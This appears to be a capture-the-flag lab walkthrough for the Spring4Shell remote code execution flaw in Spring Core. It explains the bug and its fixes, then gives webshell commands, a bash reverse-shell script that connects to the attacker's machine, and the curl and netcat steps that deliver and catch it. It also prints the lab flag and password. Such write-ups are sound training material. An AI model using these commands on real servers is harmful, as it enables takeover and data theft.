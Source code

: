 ```yaml
---
This room will provide an overview of the Spring4Shell RCE vulnerability in Spring Core, as well as give you an opportunity to exploit it for yourself in the vulnerable machine attached to this task.
---
```


> In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution

### How Does it Work?

> To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (Model-View-Controller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution. 

`The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious .jsp file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a .php extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.`

> The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the Java Development Kit (JDK) greater than or equal to 9. 

*Current conditions for vulnerability (as stated in Spring's announcement of the vulnerability) can be summarised as follows:*

- JDK 9+
- A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)
- Apache Tomcat as a server for the Spring application, packaged as a WAR
- A dependency on the spring-webmvc and/or spring-webflux components of the Spring Framework

### Remediations

> Fortunately, patched versions of the Spring Framework have been released. To remediate Spring4Shell, ensure that you are using a version of Spring released after patch 18 of minor release 5.3 (i.e. after 5.3.18), or after patch 20 if using minor release 5.2 (i.e. after 5.2.20). 

```
http://10.10.196.13:8080/exploit.zip
```

```
unzip exploit.zip
```

==pass: TryHackMe123!==

> We can easily find our target URL by checking the source code of the website homepage (view-source:http://10.10.196.13/).
Specifically we are looking for the "action" of the contact form (the only POST request available to us). This is found on line 20:
form id="contactForm" action="/" method="post"
> The action is "/", meaning that our target URL will simply be: http://10.10.196.13/. Note: the trailing slash is very important here!

```
./exploit.py http://10.10.196.13/
```

> Shell Uploaded Successfully!
   Your shell can be found at: http://10.10.196.13/tomcatwar.jsp?pwd=thm&cmd=whoami

### option 1

```
http://10.10.196.13/tomcatwar.jsp?pwd=thm&cmd=cat%20/root/flag.txt
```

`THM{NjAyNzkyMjU0MzA1ZWMwZDdiM2E5YzFm} `

### option 2 (reverse/bind shell)

```
nano reverse.sh
```

```
#!/bin/bash
bash -i >& /dev/tcp/<VPN IP>/4444 0>&1
```

```
chmod 777 reverse.sh
```

```
python3 -m http.server 80 
```

*in web after cmd*

```web
 curl%20VPN IP/reverse.sh -o /dev/shm/reverse.sh 
```
- %20 means space
- like curl 10.10.10.10/reverse.sh -o /dev/shm/reverse.sh

### netcat (kali machine)

```
rlwrap nc -nlvp 4444 
```

*in web after cmd*

```
bash /dev/shm/reverse.sh
```

> ┌──(kali㉿kali)-[~/Downloads/Spring4shell]
└─$ rlwrap nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.196.13] 39178
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
whoami
whoami
root
cd /root
ls
ls
flag.txt
cat flag.txt
cat flag.txt
THM{NjAyNzkyMjU0MzA1ZWMwZDdiM2E5YzFm}








